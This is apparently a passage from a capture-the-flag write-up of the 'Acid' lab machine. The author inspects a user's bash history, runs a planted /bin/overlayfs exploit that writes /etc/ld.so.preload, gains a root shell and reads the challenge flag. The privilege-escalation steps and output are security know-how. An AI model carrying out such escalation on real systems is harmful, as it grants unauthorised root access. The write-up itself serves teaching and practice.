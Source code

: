 We tried to look for binaries owned by the user `makke` but it didn't help me. Finally, we took a look at `.bash_history` file.

```text
makke@acid:~$ cat .bash_history 
exit
cd ..
clear
cd /
ls
cd bin/
clear
./overlayfs 
clear
cd /home/makke/
clear
nano .hint
clear
ls
clear
ls
ls -a
cat .hint 
clear
cd /bin/
ls
./overlayfs 
clear
wgt
wget
apt-get remove wget
su
su -
exit
```

Ah! There seems to be an interesting executable, `/bin/overlayfs`. Perhaps the one we're looking for?

```text
makke@acid:~$ /bin/overlayfs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# cat /root/.flag.txt
Dear Hax0r,

You have completed the Challenge Successfully.

Your Flag is : "Black@Current@Ice-Cream"

Kind & Best Regards

-ACiD

Twitter:https://twitter.com/m_avinash143
Facebook: https://www.facebook.com/M.avinash143
LinkedIN: https://in.linkedin.com/pub/avinash-thapa/101/406/4b5
```
